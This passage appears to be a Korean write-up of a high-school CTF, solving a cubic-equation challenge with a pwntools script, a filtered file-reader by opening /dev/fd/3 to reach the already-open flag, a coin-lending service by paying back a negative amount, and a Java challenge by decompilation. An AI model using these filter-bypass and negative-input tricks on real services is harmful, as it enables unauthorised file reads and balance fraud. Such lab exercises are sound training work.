[삼차방정식 계산기 사이트](http://www.1728.org/cubic.htm)에서 푸는 함수를 긁어왔다. 긁어온 함수를 NodeJS에 올리고 그걸 Python이랑 연결해서 풀게 했다. 근데 이상하게 중근만 나오면 이상하게 NaN이 나왔다. 그래서, 중근이 나오면 바로 종료하는 식으로 중근이 나오지 않아 성공할 때까지 돌려봤다.

```js
function calculate(a, b, c, d)
{
    let x1, x2, x3, f, g, h, k, m, m2, n2, n, r, rc, theta;
    f = eval(((3*c)/a) - (((b*b)/(a*a))))/3
    g = eval((2*((b*b*b)/(a*a*a))-(9*b*c/(a*a)) + ((27*(d/a)))))/27
    h = eval(((g*g)/4) + ((f*f*f)/27))

    if (h > 0)
    {
    m = eval(-(g/2)+ (Math.sqrt(h)))

    k=1
    if (m < 0) k=-1; else k=1
    m2 = eval(Math.pow((m*k),(1/3)))
    m2 = m2*k
    k=1
    n = eval(-(g/2)- (Math.sqrt(h)))
    if (n < 0) k=-1; else k=1
    n2 = eval(Math.pow((n*k),(1/3)))
    n2 = n2*k
    k=1
    x1= eval ((m2 + n2) - (b/(3*a)))

    x2=(-1*(m2 + n2)/2 - (b/(3*a)) + " + i* " + ((m2 - n2)/2)*Math.pow(3,.5));

    x3=(-1*(m2 + n2)/2 - (b/(3*a)) + " - i* " + ((m2 - n2)/2)*Math.pow(3,.5))
    }

    if (h<=0)

    {
    r = (eval(Math.sqrt((g*g/4)-h)))
    k=1
    if (r<0) k=-1

    rc = Math.pow((r*k),(1/3))*k
    k=1
    theta =Math.acos((-g/(2*r)))
    x1=eval (2*(rc*Math.cos(theta/3))-(b/(3*a)))
    x2a=rc*-1
    x2b= Math.cos(theta/3)
    x2c= Math.sqrt(3)*(Math.sin(theta/3))
    x2d= (b/3*a)*-1
    x2=eval(x2a*(x2b + x2c))-(b/(3*a))
    x3=eval(x2a*(x2b - x2c))-(b/(3*a))

    x1=x1*1E+14;x1=Math.round(x1);x1=(x1/1E+14);
    x2=x2*1E+14;x2=Math.round(x2);x2=(x2/1E+14);
    x3=x3*1E+14;x3=Math.round(x3);x3=(x3/1E+14);

    }
    if ((f+g+h)==0)

    {
    if (d<0) {sign=-1};if (d>=0) {sign=1};
    if (sign>0){dans=Math.pow((d/a),(1/3));dans=dans*-1};
    if (sign<0){d=d*-1;dans=Math.pow((d/a),(1/3))};
    x1=dans; x2=dans;x3=dans;
    }

    console.log(Math.round(x1));
    console.log(Math.round(x2));
    console.log(Math.round(x3));
}

const [a, b, c, d] = process.argv.slice(2).map(e => parseInt(e));
calculate(a, b, c, d);
```

```python
from pwn import *
import re
import os

r = remote('ctf.dimigo.hs.kr', 8231)

for i in range(300):
    r.recvuntil('No. ')
    print r.recvuntil(')')

    equation = r.recvuntil(' >> ')[:-3]
    print equation

    m3 = re.search(r'([-+])? ?([0-9]+)x\^3', equation)
    a = (m3.group(1) or '') + m3.group(2)

    m2 = re.search(r'([-+])? ?([0-9]+)x\^2', equation)
    b = (m2.group(1) or '') + m2.group(2)

    m1 = re.search(r'([-+])? ?([0-9]+)x(?!\^)', equation)
    c = (m1.group(1) or '') + m1.group(2)

    mc = re.search(r'([-+])? ?([0-9]+)(?: =)', equation)
    d = (mc.group(1) or '') + mc.group(2)

    result = os.popen('node calc.js {} {} {} {}'.format(a, b, c, d)).read()
    print result.split('\n')
    x1, x2, x3 = result.split('\n')[:3]
    r.sendline('{}, {}, {}'.format(x1, x2, x3))

r.interactive()
```

왜 이렇게 풀었을까 할 정도로 정말 무식하게 코딩했다... 리팩토링 하려다가 귀찮아서 관둠



```text
FLAG: DIMI{ju5t_a_5impl3_c4lcUlati0n}
```

## reader (10 solvers, 139pt)

```text
저를 위해서 읽어주실 수 있나요?

nc ctf.dimigo.hs.kr 1312
```

소스코드를 살펴보자.

```python
import sys

def send(data, end='\n'):
    sys.stdout.write(data + end)
    sys.stdout.flush()

def read():
    return raw_input()

def filtering(filename):
    filter = ['flag', 'proc', 'self', 'etc', 'tmp', 'home', '~', '.', '*', '?', '\\', 'x']
    for i in filter:
        if i in filename:
            send("Filtered!")
            sys.exit(-1)


if __name__ == '__main__':
    flag = open('flag', 'r')
    send("You can't read flag")
    send("But you can read file without filter XD")
    send("Filename :> ", end='')
    filename = read()
    filtering(filename)
    try:
        f = open(filename, 'r')
        send(f.read())
    except:
        send("No such file")
```

사실 open으로 wildcard를 사용할 수는 없지만, 왠지는 모르게 필터링이 되어있다.

무튼, 여기서 집중해야 할 것은 우리가 입력을 받을 떄 이미 플래그는 열려있다는 것이다. 이를 통해 `/dev/fd/{fd}`를 열면 이미 열린 파일을 엿볼 수 있을 것 같다.

여기서 0은 stdin, 1은 stdout, 2는 stderr이기 때문에 3부터 차례로 File Descriptor를 배정받는다. 그러면 한번 3을 넣어보자.



```text
FLAG: DIMI{d3v_fd_3_plz_Cl0s3_F:D!}
```

## dimi-contract (28 solvers, 100pt)

```text
요즘 코인이 유행이라면서요? 그래서 디미코인을 만들어 보았어요! 가즈아~~

nc ctf.dimigo.hs.kr 6713
```

돈을 갚는 코드를 살펴보자.

```python
def payBack():
    global dimicoin
    global debt

    if debt == 0:
        send("You no have debt!")
        return

    send("How much you pay back?")
    send(":> ", end='')

    try:
        payback = int(read())
    except ValueError:
        send("Plz input int")
        return

    if payback > debt or payback > dimicoin:
        send("Too much :<")
        return

    debt -= payback
    dimicoin -= payback
```

갚을 돈이 부족하거나 빌린 돈보다 더 많이 빌리는지는 검사하지만, 음수를 갚는 경우는 필터링하지 않는다. 그렇다면 음수를 입력값으로 넣어 `dimicoin`을 큰 양수가 되도록 해보자. 하지만, 그 전에 빚은 하나 만들어야 하므로 한번은 빌려야 한다.

이를 바탕으로 실행해보자.

```text
$ nc ctf.dimigo.hs.kr 6713
Welcome DIMI-Bank!
Here 1@ dimi-coin

---- Rate ----
-10%
---- Coin ----
0.9@
---- debt ----
0.0@

------------------------------
1. pay back
2. debt
:> 2

How much you loan?
:> 1

---- Rate ----
-10%
---- Coin ----
1.71@
---- debt ----
0.9@

------------------------------
1. pay back
2. debt
:> 1

How much you pay back?
:> -100000000000000

GoodJob!!!
--------------------------------------------------
DIMI{m1nu5_b4nk_cUrR:p7}
--------------------------------------------------
```

```text
FLAG: DIMI{m1nu5_b4nk_cUrR:p7}
```

## CTFind (26 solvers, 100pt)

```text
곧 개최되거나 최근에 종료된 CTF를 조회할 수 있는 간단한 프로그램을 개발해봤어요.
한번 테스트 해주실래요?

[07/07 10:43] : 플래그에 오류가 발견되어 수정되었음을 알려드립니다. 플래그 형식을 발견하셨던 참가자 분들께서는 다시 한번 인증해주시길 바랍니다. 죄송합니다.
```

`JD-GUI`로 까면 플래그가 나온다.


```text
FLAG: DIMI{ju5t_c0mmoN_j4va_Dec0mPil3_:D}
```

# 소감

포너블 진짜 많이 풀어봤는데.. 실전에서 못 풀면 그만이더라구요.. 더 연습하고 오겠습니다 ㅃㅃ
